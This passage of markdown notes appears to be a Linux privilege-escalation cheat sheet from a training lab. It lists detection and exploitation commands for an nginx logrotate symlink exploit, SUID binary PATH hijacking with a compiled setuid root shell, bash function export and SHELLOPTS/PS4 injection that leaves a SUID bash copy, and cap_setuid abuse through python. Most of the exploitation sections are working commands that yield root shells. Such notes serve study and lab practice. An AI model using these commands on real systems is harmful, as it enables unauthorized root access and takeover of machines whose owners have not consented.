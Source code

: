   - `gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
  - `/usr/local/bin/suid-so`

### symlinks
- *detection*
  - `dpkg -l | grep nginx`
  - notice that the installed nginx version is below 1.6.2-5+deb8u3
- *exploitation*
  - __target linux 1__
    - req. user = `www-data`
      - simulate = `su root` > `su -l www-data`
    - https://github.com/xl7dev/Exploit/blob/master/Nginx/nginxed-root.sh
      - `/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log`
    - now the system waits for logrotate to execute
  - __target linux 2__
    - `invoke-rc.d nginx rotate >/dev/null 2>&1` as root
  - __target linux 1__
    - notice that the exploit continued its execution

### environment variables
- __type 1__
  - *detection*
    - `find / -type f -perm -04000 -ls 2>/dev/null`
    - make note of all the SUID binaries
    - `strings /usr/local/bin/suid-env`
    - notice the functions used by the binary
  - *exploitation*
    - `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c`
    - `gcc /tmp/service.c -o /tmp/service`
    - `export PATH=/tmp:$PATH`
    - `/usr/local/bin/suid-env`
- __type 2__
  - *detection*
    - `find / -type f -perm -04000 -ls 2>/dev/null`
    - make note of all the SUID binaries
    - `strings /usr/local/bin/suid-env2`
    - notice the functions used by the binary
  - *exploitation*
    - __method 1__
      - `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
      - `export -f /usr/sbin/service`
      - `/usr/local/bin/suid-env2`
    - __method 2__
      - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'`


<br>

## capabilities
- *detection*
  - `getcap -r / 2>/dev/null`
  - notice the value of the “cap_setuid” capability
- *exploitation*
  - `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
